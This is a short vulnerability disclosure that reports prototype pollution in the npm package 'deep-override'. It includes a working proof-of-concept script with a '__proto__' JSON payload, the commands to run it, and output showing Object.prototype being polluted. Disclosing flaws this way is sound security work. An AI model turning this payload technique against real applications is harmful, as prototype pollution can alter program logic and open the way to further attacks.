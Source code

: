 # Description

`deep-override` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deepOverride = require("deep-override")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
deepOverride(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i deep-override # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
